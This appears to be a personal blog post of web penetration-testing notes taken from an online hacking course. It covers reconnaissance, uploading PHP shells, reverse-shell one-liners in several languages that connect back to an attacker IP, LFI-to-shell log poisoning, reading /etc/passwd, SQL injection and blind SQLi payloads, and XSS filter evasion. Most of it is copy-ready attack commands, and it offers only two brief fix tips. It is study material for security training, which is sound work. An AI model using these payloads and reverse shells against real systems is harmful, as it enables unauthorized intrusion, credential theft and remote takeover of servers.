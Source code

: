 ```yaml
---
layout: post
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
categories: jekyll
permalink: /notes/webpentest
tags: [note, htb, web]

---
```


# Simple-Guide-to-Web-Pentest
some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

## webbugTIPS**

### **(Information Gathering)**

- http://whois.domaintools.com = find owner target
- https://toolbar.netcraft.com/site_report?url = show technology used on target
- https://www.robtex.com = show comprehensive info target
- Discovering Websites On The Same Server = *bing ip:103.198.52.156 php?id*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_dirb http://what.com.my /root/usr/share/wlist.txt_]. Try find [php.info, robots.txt, config.inc] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

### **File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php*
- Metasploit listener: *use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run*
- Upload Weevly shell. [*weevly generate p@55w0rd! shell.php*]. Open the url to activated.
- Connect to weevly terminal. [*weevly http://test.com.my/upload p@55w0rd!*]
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

### **Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command [*nc -vv -l -p 8080*]

- BASH = *bash -i >& /dev/tcp/10.20.14.203/8080 0>&1*
- PERL= *perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'*
Python = *python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'*
- PHP = *php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'*
- Ruby = *ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'*
- Netcat = *nc -e /bin/sh 10.20.14 8080*

### **Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for [*../../../../etc/passwd*] and copy the passwd hashes.
- Gain access method#1. Check for [*../../../../proc/self/environ*] and modify burpsuite Headers Tab>user Agent value from Mozilla to [*<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>*] and set listener to [*nc -vv -l -p 8888*] on terminal.
- Gain access method#2. Check for [*../../../../var/log/auth.log*] and do SSH by [*ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP*] and set listener nc in terminal.

### **Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by disable allow_url_fopen & allow_url_include in /etc/php5/cgi/php.ini.

### **SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use [and, order by, ‘] and check for error handling. [123456’ and 1=1#]
- [WEAK codepractise] Try [(admin)/(admin’ #); aaa’ or 1=1 #]
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

### **SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using [*admin’ order by 1#*] # change to %23 to check how many columns are there in db.
- If there are 5 colums then use [*union select 1, database(), user(), version(), 5*]

### **SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE [*1’ and 1=1%23*], FALSE [1’ and 1=0%23].
TRUE [1’ order by 1%23], FALSE [1’ order by 1000000000%23].
TRUE [1’ union select table_name,2 from information_schema.tables%23].
[1’ union select null,load_file(‘/etc/passwd’),null,null,null%23].
- *Sqlmap -u http://injectablelink.com.org* . use ‘--sql-shell’ parameter to run sql command.

### **XSS Vulnerabilities**

- Try basic [*<script>alert(“testedXSS”)</script>*]
- If filter, try more [*<sCripT>alert(“testedXSS”)</scRipt>*]
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*

